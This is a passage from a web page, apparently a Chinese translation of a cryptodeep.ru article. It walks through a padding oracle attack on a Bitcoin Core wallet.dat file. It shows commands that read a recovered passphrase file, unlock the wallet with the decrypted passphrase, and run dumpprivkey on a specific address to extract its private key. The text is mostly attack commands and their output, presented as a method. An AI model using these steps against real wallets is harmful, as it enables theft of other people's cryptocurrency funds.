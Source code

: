 

<pre class="wp-block-code"><code>ls</code></pre>



<pre class="wp-block-code"><code>cat walletpassphrase.txt</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-106-1024x607.png" alt="Padding Oracle 對流行的 Bitcoin Core 錢包的 Wallet.dat 密碼解密的攻擊" class="wp-image-4216"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">結果：</h2>



<pre class="wp-block-code"><code>walletpassphrase 1111111001010001100010110100011010011111011101001010111001011110010111000011101101000101010100001111000000011110010001110001110001011000111101001101110010010010101001101011110100010010100011011011001010111100110100110011100100001110110101001110111011100101 60
</code></pre>



<h2 class="wp-block-heading">存取私鑰的密碼已找到！</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><code>dumpprivkey "address"</code></strong>讓我們透過控制台使用該命令<strong><code>Bitcoin Core</code></strong></p>
</blockquote>



<p><strong>團隊：</strong></p>



<pre class="wp-block-code"><code>walletpassphrase 1111111001010001100010110100011010011111011101001010111001011110010111000011101101000101010100001111000000011110010001110001110001011000111101001101110010010010101001101011110100010010100011011011001010111100110100110011100100001110110101001110111011100101 60
</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>dumpprivkey 1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>
